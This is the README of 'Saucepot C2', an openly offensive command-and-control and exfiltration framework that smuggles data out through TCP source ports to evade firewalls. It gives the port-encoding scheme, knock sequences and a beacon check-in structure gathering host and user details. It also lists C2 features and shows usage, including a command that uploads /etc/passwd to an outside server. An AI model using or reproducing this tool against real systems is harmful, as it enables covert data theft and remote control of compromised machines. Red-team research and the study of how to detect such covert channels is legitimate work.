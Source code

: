 # Saucepot C2

Saucepot C2 is a client and server framework that leverages ephemeral TCP source ports for conducting data
exfiltration and command-and-control (C2).  The tool elevates the Port Knocking technique to a new level. Instead of using DstPorts as knock sequences, it employs SrcPorts or ephemeral ports. This approach allows data exfiltration even in highly strict firewall environments where only one outbound port is permitted, such as port 443. Since our payload resides in the SrcPort field, the TCP session state becomes irrelevant. We will exclusively use SYN packets for outbound data transfer to the server. Control and Data channels are segregated using two non-overlapping SrcPort ranges: 29000-33000 for Control and 49000-64360 for Data. The actual data can be reconstructed on the server side using the formula: **data = (SrcPort - 49000) % 256** after receiving the `session-start` sequence.

Currently, two port-knock sequences have been defined: `session-start` (sequences: 32400, 32500, 32600) and `session-end` (sequences: 29900, 29800, 29700). The compressed JSON data structure is sent after the `session-start` sequence, and the `session-end` sequence is sent after transmitting the data payload. Depending on different C2 commands, the structure of the data JSON varies. For example, for beacon check-in:

```
data = {
    'cmd': 'chkin',
    'payload': {
        'Hostname': hostname,
        'Username': os.getlogin(),
        'IP': ip,
        'OS': get_os(),
        'UUID': hostuuid
    }
}
```

Supported commands or features include:

- Check-in / heartbeat
- Directory listing
- Process listing
- File upload

This tool will not work in an environment where a client's source ports are mapped to different values after being NAT'd.

## Usage


### Server
```
usage: saucepot-server.py [-h] [-d <destination_host>] [-p <destination_port>] [-v] [-c]

options:
  -h, --help            show this help message and exit
  -d <destination_host>, --dst <destination_host>
                        Destination host used in packet filter (default: 127.0.0.1)
  -p <destination_port>, --port <destination_port>
                        Destination port used in packet filter (default: 80)
  -v, --verbose         Increase verbosity level (use multiple times for more verbosity)
  -c, --check           Check if the server sees the ephemeral port specified by the client
  ```

### Client
```
usage: saucepot-client.py [-h] [-d <destination_host>] [-p <destination_port>] [-c] [-u] [-f <file>]

options:
  -h, --help            show this help message and exit
  -d <destination_host>, --dst <destination_host>
                        Destination server to connect to (default: 127.0.0.1)
  -p <destination_port>, --port <destination_port>
                        Destination port to connect to (default: 80)
  -c, --check           Check if the server sees the ephemeral port specified by the client
  -u <file>, --upload <file>
                        Upload the file specified directly, without retrieving C2 commands
```

## Example Usage

Here are some examples of how to use Saucepot Server:

### Port checker
Check if specified source ports are kept after being NAT'd.

```shell
# Server
$ sudo python3 saucepot-server.py -d 172.31.48.68 -p 80 --check
Ephemeral Port Checker listening on port 80 ...

[2023-10-02 07:01:46] Challenge duel_1696402906.356157 received from 35.87.191.76:61896
[2023-10-02 07:01:46] Challenge duel_1696402906.367766 received from 35.87.191.76:54438
[2023-10-02 07:01:46] Challenge duel_1696402906.3793 received from 35.87.191.76:53003

# Client
$ python3 saucepot-client.py -d 18.246.19.238 -p 80 --check
Testing ephemeral port with 18.246.19.238:80 ...
Test 1 with ephemeral port 61896: PASS
Test 2 with ephemeral port 54438: PASS
Test 3 with ephemeral port 53003: PASS

Ephemeral port test succeeded. Enjoy Port Knocking 2.0 technique!
```


### File Exfiltration

Client uploads a file to the Server without receiving C2 commands from the Server.

```shell
# Server
$ sudo python3 saucepot-server.py -d 172.31.48.68 -p 80 

# Client
$ python3 saucepot-client.py -d 18.246.19.238 -p 80 --upload /etc/passwd
```

### Command and Control (C2)

Client checks in and starts receiving C2 commands to execute.

```shell
# Server
$ sudo python3 saucepot-server.py -d 172.31.48.68 -p 80 

# Client
$ python3 saucepot-client.py -d 18.246.19.238 -p 80
```

## Future Work

- More flexibility in `ls`, `upload` commands


## License

This project is licensed under the BSD-3-Clause License. See the [LICENSE](LICENSE) file for details.
